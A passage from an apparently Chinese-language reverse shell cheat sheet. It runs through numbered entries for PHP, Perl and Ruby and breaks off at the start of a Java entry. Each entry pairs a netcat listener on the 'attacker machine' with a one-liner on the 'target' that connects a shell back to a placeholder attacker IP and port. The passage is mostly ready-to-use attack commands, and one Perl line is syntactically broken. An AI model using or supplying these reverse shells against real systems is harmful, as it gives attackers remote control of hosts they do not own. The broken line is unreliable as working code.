   ```bash
  nc -nvlp [port]
  ```

* 第二步

  靶机：

  ~~~bash
  php -r 'exec("/usr/bin/bash -i >& /dev/tcp/[攻击机ip]/[port] 0>&1");'
  有时变形为
  php -r '$sock=fsockopen("[攻击机ip]",[port]);exec("/bin/bash -i <&3 >&3 2>&3");'
  ~~~
  
  8. **perl反弹**

Perl一种功能丰富的计算机程序语言，运行在超过100种计算机平台上，适用广泛，从最初是为文本处理而开发的，现在用于各种任务，包括系统管理，Web开发，网络编程，GUI开发等。

* 第一步

  攻击机

  ~~~bash
  nc -nvlp [port]
  ~~~

* 第二步

  靶机：

  ~~~bash
  perl -e 'use Socket;$i="ip"$p=port;
  socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ~~~
  
  9. **Ruby反弹**

Ruby，一种简单快捷的面向对象（面向对象程序设计）脚本语言。

* 第一步

  攻击机：

  ```bash
  nc -nvlp [port]
  ```

* 第二步

  靶机：

  ```bash
  ruby -rsocket -e'f=TCPSocket.open("[攻击机ip]",[port]).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
  ```
  
  10. **java反弹**
  
  * 第一步
  
    攻击机：
  
    ~~~bash
    nc -nvlp [port]
    ~~~
  